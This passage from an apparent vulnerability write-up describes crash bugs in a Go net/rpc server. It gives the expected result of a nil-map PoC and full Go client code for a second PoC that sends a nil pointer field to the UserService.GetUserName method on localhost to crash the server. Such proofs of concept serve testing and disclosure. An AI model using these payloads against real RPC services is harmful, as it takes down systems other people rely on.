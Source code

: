 **Expected Outcome:** When this client code is executed against the vulnerable server, the first `client.Call` targeting `Calculator.AddToMap` with `nilMap` (where `InputMap` is `nil`) will cause the server-side `Calculator.AddToMap` method to panic with an "assignment to entry in nil map" error. The server process will terminate. The client will receive an RPC error indicating that the connection was broken or the call failed. The second `client.Call` will subsequently fail as the server is no longer running.

### PoC 2: Triggering Nil Pointer Dereference (Denial of Service)

This client code sends an RPC request where a pointer field (`Name`) within the `User` struct is explicitly set to `nil`, leading to a server-side panic upon dereference.

```go
package main

import (
	"log"
	"net/rpc"
)

// Define the argument structure matching the server's RPC method
type GetUserNameArgs struct {
	User *User // User is a pointer, can be nil
}

type User struct {
	ID   string
	Name *string // Name is a pointer, can be nil
}

func main() {
	client, err := rpc.Dial("tcp", "localhost:1234")
	if err!= nil {
		log.Fatalf("dialing: %v", err)
	}
	defer client.Close()

	// --- PoC PAYLOAD 1: Send a User struct where Name is nil ---
	userWithNilName := &User{ID: "attacker_user", Name: nil} // Name is explicitly nil
	args1 := GetUserNameArgs{User: userWithNilName}
	var reply1 string
	log.Println("Attempting RPC call with nil Name pointer...")
	err = client.Call("UserService.GetUserName", args1, &reply1)
	if err!= nil {
		// Server will likely panic and disconnect, leading to an RPC error on client
		log.Printf("RPC call with nil Name pointer failed (expected panic on server): %v", err)
	} else {
		log.Printf("RPC call with nil Name pointer succeeded unexpectedly: %s", reply1)
	}

	// --- CONTROL CASE: Send a User struct where Name is a valid pointer (should succeed) ---
	validName := "Alice"
	userWithValidName := &User{ID: "safe_user", Name: &validName}
	args2 := GetUserNameArgs{User: userWithValidName}
	var reply2 string
	log.Println("Attempting RPC call with valid Name pointer...")
	err = client.Call("UserService.GetUserName", args2, &reply2)
	if err!= nil {
		log.Printf("RPC call with valid Name pointer failed: %v", err)
	} else {
		log.Printf("RPC call with valid Name pointer succeeded: %s", reply2)
	}
}
```